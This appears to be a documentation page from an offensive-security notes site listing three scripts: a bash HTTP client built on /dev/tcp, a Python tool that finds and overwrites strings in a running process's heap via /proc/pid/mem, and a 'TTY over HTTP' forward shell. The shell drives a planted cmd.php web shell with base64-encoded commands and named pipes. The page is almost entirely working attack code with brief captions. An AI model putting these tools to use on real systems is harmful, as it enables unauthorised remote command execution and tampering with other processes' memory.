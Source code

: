 
  title: '',
  description: '',
}

  { title: '__curl', id: '__curl', },
  { title: 'Hack memory process', id: 'hack-mem-proc', },
  { title: 'TTY over HTTP', id: 'tty-over-http', },
]

<HeroPattern />

# Scripts

## __curl {{ id: '__curl' }}

This is a simple implementation of `curl` using bash and tcp protocol.

```bash
function __curl() {
  read -r proto server path <<<"$(printf '%s' "${1//// }")"
  if [ "$proto" != "http:" ]; then
    printf >&2 "sorry, %s supports only http\n" "${FUNCNAME[0]}"
    return 1
  fi
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [ "${HOST}" = "${PORT}" ] && PORT=80

  exec 3<>"/dev/tcp/${HOST}/$PORT"
  printf 'GET %s HTTP/1.0\r\nHost: %s\r\n\r\n' "${DOC}" "${HOST}" >&3
  (while read -r line; do
   [ "$line" = $'\r' ] && break
  done && cat) <&3
  exec 3>&-
}
```

## Hack memory process {{ id: 'hack-mem-proc' }}

This is a simple script to read and write to the heap of a process in Linux.

```bash
#!/usr/bin/env python3

from sys import argv, exit


def print_usage():
    """Print the usage string if script was used improperly"""
    print(
        "Usage: \
                \t$ {} <pid> <string to read> <string to write>".format(argv[0])
    )
    exit(1)


def read_write_heap(pid, read_str, write_str):
    """Find @read_str in the heap of @pid and replace it with @write_str"""
    try:
        maps_file = open("/proc/{}/maps".format(pid), "r")
    except IOError as e:
        print("Can't open file /proc/{}/maps: IOError: {}".format(pid, e))
        exit(1)
    heap_info = None
    for line in maps_file:
        if "heap" in line:
            heap_info = line.split()
    maps_file.close()
    if heap_info is None:
        print("No heap found!")
        exit(1)
    addr = heap_info[0].split("-")
    perms = heap_info[1]
    if "r" not in perms or "w" not in perms:
        print("Heap does not have read and/or write permission")
        exit(0)
    try:
        mem_file = open("/proc/{}/mem".format(pid), "rb+")
    except IOError as e:
        print("Can't open file /proc/{}/maps: IOError: {}".format(pid, e))
        exit(1)
    heap_start = int(addr[0], 16)
    heap_end = int(addr[1], 16)
    mem_file.seek(heap_start)
    heap = mem_file.read(heap_end - heap_start)
    str_offset = heap.find(bytes(read_str, "ASCII"))
    if str_offset < 0:
        print("Can't find {} in /proc/{}/mem".format(read_str, pid))
        exit(1)
    mem_file.seek(heap_start + str_offset)
    diff = len(read_str) - len(write_str) + 1
    if diff > 0:
        write_str += " " * diff
    mem_file.write(bytes(write_str, "ASCII"))


if len(argv) == 4:
    pid = argv[1]
    search_str = argv[2]
    replace_str = argv[3]
    read_write_heap(pid, search_str, replace_str)
else:
    print_usage()
```

## TTY over HTTP {{ id: 'tty-over-http' }}

This is a interactive TTY using HTTP implemented in Python3

```python
#!/bin/python3

import requests, threading, signal, time, sys
from random import randrange
from base64 import b64encode


def handler(sig, frame):
    print("\n\n[!] Exiting...\n")
    run_cmd(erase_stdin)
    run_cmd(erase_stdout)
    sys.exit(1)


signal.signal(signal.SIGINT, handler)

main_url = "http://localhost/cmd.php"
session = randrange(1000, 9999)
stdin = "/dev/shm/%s.input" % session
stdout = "/dev/shm/%s.output" % session
erase_stdin = "/bin/rm %s" % stdin
erase_stdout = "/bin/rm %s" % stdout


class all_the_reads(object):
    def __init__(self, interval=1):
        self.interval = interval
        thread = threading.Thread(target=self.run, args=())
        thread.daemon = True
        thread.start()

    def run(self):
        clear_output = "echo '' > %s" % stdout
        read_output = "/bin/cat %s" % stdout

        while True:
            output = run_cmd(read_output)
            if output:
                run_cmd(clear_output)
                print(output)

            time.sleep(self.interval)


def run_cmd(cmd):
    cmd = cmd.encode()
    cmd = b64encode(cmd).decode()

    post_data = {"cmd": "echo %s | base64 -d | bash" % cmd}

    r = (requests.post(main_url, data=post_data, timeout=5).text).strip()

    return r


def setup_shell():
    named_pipes = """mkfifo %s; tail -f %s | /bin/sh 2>&1 > %s""" % (
        stdin,
        stdin,
        stdout,
    )

    try:
        run_cmd(named_pipes)
    except:
        None

    return None


def write_cmd(cmd):
    cmd = cmd.encode()
    cmd = b64encode(cmd).decode()

    post_data = {"cmd": "echo %s | base64 -d > %s" % (cmd, stdin)}

    r = (requests.post(main_url, data=post_data, timeout=5).text).strip()


def read_cmd():
    read_output = "/bin/cat %s" % stdout
    output = run_cmd(read_output)
    return output


if __name__ == "__main__":
    setup_shell()
    read_all_threads = all_the_reads()
    while True:
        command = input("> ")
        write_cmd(command + "\n")

```

